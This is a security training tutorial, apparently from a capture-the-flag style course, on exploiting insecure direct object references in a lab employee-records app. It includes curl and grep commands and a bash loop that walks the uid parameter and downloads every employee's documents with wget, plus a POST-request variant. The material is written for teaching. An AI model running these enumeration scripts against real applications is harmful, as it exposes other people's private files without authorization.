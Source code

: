 # Mass IDOR Enumeration
## Insecure Parameters
### Example
The exercise below is an `Employee Manager` web application that hosts employee records:

![Employee Manager with 'Edit Profile' button, links to 'Personal Records', 'Documents', and 'Contracts'](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg)

Our web application assumes that we are logged in as an employee with user id `uid=1`.

Once we click on `Documents`, we are redirected to `/documents.php`.
- When we get to the `Documents` page, we see several documents that belong to our user.
- Checking the file links, we see that they have individual names:
```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```
- We see that the files have a predictable naming pattern, as the file names appear to be using the user `uid` and the month/year as part of the file name, which may allow us to fuzz files for other users. This is the most basic type of IDOR vulnerability and is called `static file IDOR`.

Let's look for a more solid IDOR vulnerability.

We see that the page is setting our `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`). If the web application uses this `uid` GET parameter as a direct reference to the employee records it should show, we may be able to view other employees' documents by simply changing this value.
- If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`.

When we try changing the `uid` to `?uid=2`, we don't notice any difference in the page output, but...

If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`:
```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```
## Mass Enumeration
We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. However, manually accessing files is not efficient.

So, we can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files.

We can click on [`CTRL+SHIFT+C`] in Firefox to enable the `element inspector`, and then click on any of the links to view their HTML source code, and we will get the following:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:
```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```

We may now use specific bash commands to trim the extra parts and only get the document links in the output.
- It is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:
```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
- When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees.

Run with:
```shell
bash script.sh STMIP:STMPO
```
### `uid` Specified in Request
If the `uid` value isn't in the url and is instead in a `POST` request, we can modify our `curl` to the following:
```bash
curl -s -X POST "http://SERVER_IP:PORT/documents.php" -d "uid=PUT-ID-HERE" | grep -oP "/documents.*?\.[a-z]{3}"
```

Run with:
```shell
bash script.sh STMIP:STMPO
```